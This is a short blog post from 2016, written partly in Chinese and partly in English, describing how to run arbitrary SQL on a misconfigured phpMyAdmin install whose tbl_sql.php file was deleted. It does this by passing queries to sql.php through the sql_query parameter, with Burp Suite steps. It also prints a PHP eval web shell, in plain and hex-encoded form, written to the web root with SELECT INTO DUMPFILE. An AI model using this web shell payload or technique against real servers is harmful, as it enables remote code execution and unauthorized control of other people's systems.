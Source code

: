 ```yaml
---
layout:     post
title:      phpmyadmin独家技能
date:       2016-04-12
summary:    发现phpmyadmin的一个技能,只在一定情况下有效
categories: web
thumbnail:  jekyll 
tags:
 - web
 - phpmyadmin
---
```

### 0x01 Base

#### 1>website has phpmyadmin

#### 2>phpmyadmin can be logined by anyone without password

#### 3>the <strong>tbl_sql.php</strong> has been deleted by website manager or someone else

### 0x02 About

#### The web server runs phpmyadmin,but with wrong setup,makes it possible for anyone to logined in phpmyadmin without password,and able to read the root password.  

#### There are two files:<strong> tbl_sql.php,sql.php</strong>. Generally,tbl_sql.php has execute sqlquery function like below picture at arrow 1,sql.php has view sql database function like below picture at arrow 2.
<img src="../../../../../pic/phpmyadmin/phpmyadmin160413.png"><br>

#### generally,when we want to execute sql query like

```sql
select '<? php @eval($_POST[cmd]);?>' into dumpfile '/var/www/1.php'
or
select 0x3c3f2070687020406576616c28245f504f53545b636d645d293b3f3e into dumpfile '/var/www/1.php'
```

#### we will find this does not work here coz tbl_sql.php was deleted.It works out like below 404 error when I try to execute above query:
<img src="../../../../../pic/phpmyadmin/phpmyadmin160413_2.png">

### 0x03 Exploit

#### > use <strong>sql.php</strong> to execute sqlquery  

#### > usage:

```
https://xx.xx.xx/phpmyadmin/sql.php?xxx=xxx...&sql_query=[sqli]
```

#### > [sqli] is sqlquery sentence been urlencoded.

#### > eg.sql_query=select%20@@version

*detail*:  

#### 1>use burpsuite listening browser's post|get request parameters when clicking any table name like below:
<img src='../../../../../pic/phpmyadmin/phpmyadmin160413_3.png'>

#### 2>add add get request parameter *sql_query=select%20@@version*
<img src='../../../../../pic/phpmyadmin/phpmyadmin160413_4.png'>

#### 3>find sqli has been execute
<img src='../../../../../pic/phpmyadmin/phpmyadmin160413_5.png'>

    
